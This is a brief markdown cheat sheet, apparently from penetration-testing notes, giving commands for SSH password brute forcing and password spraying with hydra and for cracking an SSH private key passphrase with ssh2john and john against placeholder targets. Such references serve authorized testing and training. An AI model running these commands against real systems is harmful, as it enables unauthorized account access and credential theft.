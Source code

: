 ### Brute Force
```bash
hydra -l user -P /path/to/wordlist.txt -t <THREADS> ssh://X.X.X.X
```

> SSH Key Brute Forcing
```bash
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=path/to/wordlist.txt id_rsa.hash
```

### Password Spraying
```bash
hydra -L users.txt -p 'Password123' ssh://<target_ip>
```